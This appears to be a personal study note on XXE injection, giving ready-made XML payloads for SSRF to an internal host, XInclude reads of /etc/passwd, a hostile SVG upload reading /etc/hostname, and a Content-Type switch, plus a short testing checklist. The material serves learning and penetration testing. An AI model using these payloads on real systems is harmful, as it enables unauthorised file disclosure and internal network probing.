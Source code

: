 # Exploiting [[XXE]] to perform [[SSRF]] attacks
Example:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<foo>
	<bar>
		&xxe;
	</bar>
</foo>
```

# XInclude attacks
You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document. 
Example:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
By default, `xi:include` parses document as xml. `parse` attribute must be specified.
Full example:
```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

# Attack via [[File Upload]]
Examples of XML-based formats are office document formats like DOCX and image formats like SVG. 
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
If uploaded, it will draw hostname content on svg image.

# Attack via modified Content-Type
Try to change `Content-Type` to `application/xml` and the data:
```
foo=bar
```
to
```
<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

# How to find and test for XXE vulnerabilities
* Test for file retrieval by defining an external entity
* Testing for Blind XXE using #burp Collaborator
* Try XInclude if full XML is not presented
* [[XSS]], [[SQLi]], obfuscated to bypass the defence
